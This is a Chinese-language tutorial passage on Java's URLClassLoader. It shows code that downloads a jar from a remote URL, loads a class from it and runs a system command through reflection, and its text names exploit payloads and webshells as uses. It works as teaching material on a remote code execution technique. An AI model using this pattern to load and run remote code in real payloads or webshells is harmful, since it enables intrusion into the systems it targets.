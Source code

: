 ### URLClassLoader

- URLClassLoader继承了ClassLoader，URLClassLoader提供了加载远程资源的能力，在写漏洞利用的payload或者webshell的时候我们可以使用这个特性来加载远程的jar来实现远程的类方法调用。
- TestURLClassLoader.java示例：

  ```java
  package test;
  import java.io.ByteArrayOutputStream;
  import java.io.InputStream;
  import java.net.URL;
  import java.net.URLClassLoader;
  /**
      * Creator: yz
      * Date: 2019/12/18
      */
  public class TestURLClassLoader {
      public static void main(String[] args) {
          try {
              // 定义远程加载的jar路径
              URL url = new URL("https://javaweb.org/tools/cmd.jar");
              // 创建URLClassLoader对象，并加载远程jar包
              URLClassLoader ucl = new URLClassLoader(new URL[]{url});
              // 定义需要执行的系统命令
              String cmd = "calc.exe";
              // 通过URLClassLoader加载远程jar包中的CMD类
              Class cmdClass = ucl.loadClass("CMD");
              // 调用CMD类中的exec方法，等价于: Process process = CMD.exec("calc.exe");
              Process process = (Process) cmdClass.getMethod("exec", String.class).invoke(null, cmd);
              // 获取命令执行结果的输入流
              InputStream           in   = process.getInputStream();
              ByteArrayOutputStream baos = new ByteArrayOutputStream();
              byte[]                b    = new byte[1024];
              int                   a    = -1;
              // 读取命令执行结果
              while ((a = in.read(b)) != -1) {
                  baos.write(b, 0, a);
              }
              // 输出命令执行结果
              System.out.println(baos.toString());
          } catch (Exception e) {
              e.printStackTrace();
          }
      }
  }
  ```
  
- 执行结果，弹出计算器。
- 远程的cmd.jar中就一个CMD.class文件，对应的编译之前的代码片段如下：

  ```java
  import java.io.IOException;
  /**
  * Creator: yz
  * Date: 2019/12/18
  */
  public class CMD {
  	public static Process exec(String cmd) throws IOException {
  		return Runtime.getRuntime().exec(cmd);
  	}
  }
  
  ```
